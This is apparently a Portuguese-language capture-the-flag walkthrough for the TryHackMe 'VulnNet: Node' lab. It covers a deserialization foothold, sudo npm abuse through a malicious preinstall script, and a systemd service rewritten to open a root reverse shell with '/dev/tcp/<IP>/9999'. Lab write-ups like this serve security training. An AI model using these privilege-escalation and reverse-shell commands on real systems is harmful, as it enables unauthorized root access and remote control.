 #ctf
https://tryhackme.com/room/vulnnetnode

## Recon e exploração

### NMAP

    PORT     STATE SERVICE VERSION
    8080/tcp open  http    Node.js Express framework

### Insecure Deserialization

O site tem um cookie de sessão em base64 onde o atributo "username" da para injetar um reverse shell

## Privesc

### www -> serv-manage

O usuario "www" tem permissão de rodar __/usr/bin/npm__ como usuario "serv-manage" sem a necessidade de inserir senha. Com isso basta rodar:

```sh
TF=$(mktemp -d)
echo '{"scripts": {"preinstall": "/bin/sh"}}' > $TF/package.json
cd $TF
chmod 777 .
sudo -u serv-manage /usr/bin/npm run preinstall
```

### serv-manage -> root

Rodando "sudo -l" temos:

    (root) NOPASSWD: /bin/systemctl start vulnnet-auto.timer
    (root) NOPASSWD: /bin/systemctl stop vulnnet-auto.timer
    (root) NOPASSWD: /bin/systemctl daemon-reload

o "vulnnet-auto.timer" roda um arquivo chamado __vulnnet-job.service__ que possui permissão de escrita, alterando esse arquivo para acessar o root, ficou assim:

```sh
[Unit]
Description=Logs system statistics to the systemd journal
Wants=vulnnet-auto.timer

[Service]
# Gather system statistics
Type=forking
User=root
ExecStart=/bin/bash -c 'bash -i >& /dev/tcp/<IP>/9999 0>&1'

[Install]
WantedBy=multi-user.target
```

Depois bastou executar:

```sh
sudo -u root /bin/systemctl start vulnnet-auto.timer
```

GG
